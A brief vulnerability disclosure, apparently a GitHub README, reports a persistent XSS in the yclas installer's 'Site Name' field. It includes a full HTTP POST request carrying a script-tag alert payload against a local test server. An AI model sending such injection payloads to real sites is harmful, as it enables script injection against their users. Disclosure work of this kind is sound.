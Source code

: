 # yclas-xss1

STATIC XSS (PERSISTENT XSS)

https://github.com/yclas/yclas

Install/View/Form.php accepts javascript in the "Site Name" field and does not sanitize input, saving the information in the database.

POST / HTTP/1.1 Host: 0.0.0.0:8081 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0 Accept: application/json, ext/javascript, /; q=0.01 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded; charset=UTF-8 X-Requested-With: XMLHttpRequest Content-Length: 338 Origin: http://0.0.0.0:8081 Connection: close Referer: http://0.0.0.0:8081/ Cookie: PHPSESSID=<removed>; theme=87a24f00f25f75f91eeacce8f9f24ae285233db5~atlantic-lite; session=<removed> LANGUAGE=en_US&DB_HOST=localhost&DB_NAME=openclassifieds1&DB_USER=root&DB_PASS=kali&SAMPLE_DB=on&DB_CHARSET=utf8mb4&TABLE_PREFIX=yc4_&SITE_URL=http%3A%2F%2F0.0.0.0%3A8081%2F&SITE_FOLDER=%2F&SITE_NAME=<script>alert(1)</script>&TIMEZONE=America%2FLos_Angeles&ADMIN_EMAIL=testemail@test.com&ADMIN_PWD=test1234&HASH_KEY=

SCREENSHOTS AVAILABLE IN THE REPO FILES

DISCOVERED BY NATHAN JOHNSON ON 8/15/2021
